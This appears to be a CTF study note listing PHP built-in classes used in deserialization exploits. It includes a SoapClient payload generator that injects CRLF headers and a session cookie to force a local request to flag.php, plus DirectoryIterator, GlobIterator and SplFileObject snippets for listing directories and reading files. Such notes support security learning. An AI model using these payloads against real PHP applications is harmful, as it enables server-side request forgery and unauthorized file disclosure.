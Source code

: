 - # SoapClient
- ```php
  <?php
  $a = new SoapClient(
    null,
    array(
        'uri'=>'bbb',
        'location'=>'http://127.0.0.1:81/flag.php',
        'user_agent'=>"test\r\nCookie: PHPSESSID=0mrbj32r0ptfcnf7l6kmmgh1c4"
    )
  );
  echo urlencode(serialize($a));
  # 利用: $a->notexist();
  ?>
  ```
- # Error类:
	- ((62efc5c6-a0d5-4eab-906e-0db03366b1e9))
- # DirectoryIterator
  id:: 6478aaed-922b-471c-b8d6-ec1b0cb0444d
	- ```php
	  $a=new DirectoryIterator("glob:///*");
	  foreach($a as $f){
	  	echo $f.' ';
	  }
	  ```
	- FilesystemIterator与之类似
- # GlobIterator
	- ```php
	  <?php
	  highlight_file(__file__);
	  $dir = '/*';
	  $a = new GlobIterator($dir);
	  foreach($a as $f){
	      echo($f->__toString().'<br>');
	  }
	  ?>
	  ```
- # SplFileObject
	- 可以读取文件，支持伪协议
	- 例子：[[CTF/WP/GDOUCTF 2023 反方向的钟]]